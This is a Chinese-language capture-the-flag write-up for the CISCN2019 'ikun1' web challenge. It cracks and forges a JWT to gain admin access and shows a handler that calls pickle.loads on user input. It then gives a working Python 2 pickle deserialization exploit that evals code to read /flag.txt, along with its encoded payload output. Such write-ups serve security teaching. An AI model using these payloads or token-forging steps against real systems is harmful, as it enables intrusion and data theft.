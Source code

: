 # 题目

## [CISCN2019 华北赛区 Day1 Web2]ikun1

提示 python pickle



1.查看页面源码，发现提示

![image-20240928215700643](/web/图片截图/image-20240928215700643.png)

浏览页面，找到level 6的页面 181，

下单，修改优惠比例，提示admin才行，查看页面请求，得到jwt token

2.解密jwt token

JWT=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluMSJ9.kFKLac89rUM6C1Rk2FHRmwWFsd0DFfwxuqM1rdaeRNU;

得到密码是1kun

![image-20240928220004976](../图片截图/image-20240928220004976.png)

重新构建jwt 填回页面，找到

```javascript
<div class="ui text container login-wrap-inf">
<!-- 潜伏敌后已久,只能帮到这了 -->
<a href="/static/asd1f654e683wq/www.zip" ><span style="visibility:hidden">删库跑路前我留了好东西在这里</span></a>
<div class="ui segments center padddd">
<!-- 对抗*站黑科技，目前为测试阶段，只对管理员开放 -->
<div class="ui segment">
<img src="/static/img/b.png" alt=""/>
```

3.下载源码

发现有pickle，怀疑有pickle反序列化漏洞(admin.py)

```python
import tornado.web
from sshop.base import BaseHandler
import pickle
import urllib


class AdminHandler(BaseHandler):
    @tornado.web.authenticated
    def get(self, *args, **kwargs):
        if self.current_user == "admin":
            return self.render('form.html', res='This is Black Technology!', member=0)
        else:
            return self.render('no_ass.html')

    @tornado.web.authenticated
    def post(self, *args, **kwargs):
        try:
            become = self.get_argument('become')
            p = pickle.loads(urllib.unquote(become))
            return self.render('form.html', res=p, member=1)
        except:
            return self.render('form.html', res='This is Black Technology!', member=0)
```

构建运行脚本（需用python2）

```python
import pickle
import urllib

class payload(object):
    def __reduce__(self):
       return (eval, ("open('/flag.txt','r').read()",))

a = pickle.dumps(payload())
a = urllib.quote(a)
print(a)
```



```shell
 ✘ 🐸   ~/Alven/CTF/BugKu/web-ikun1  /Users/alven/.pyenv/versions/2.7.18/bin/python /Users/alven/Alven/CTF/BugKu/web-ikun1/www/exp.py
c__builtin__%0Aeval%0Ap0%0A%28S%22open%28%27/flag.txt%27%2C%27r%27%29.read%28%29%22%0Ap1%0Atp2%0ARp3%0A.
```



替换become参数为上payload，得出

![image-20240928223006263](../图片截图/image-20240928223006263.png)



flag{69f0688e-9ae0-4f82-a181-ad455a7a8fd1}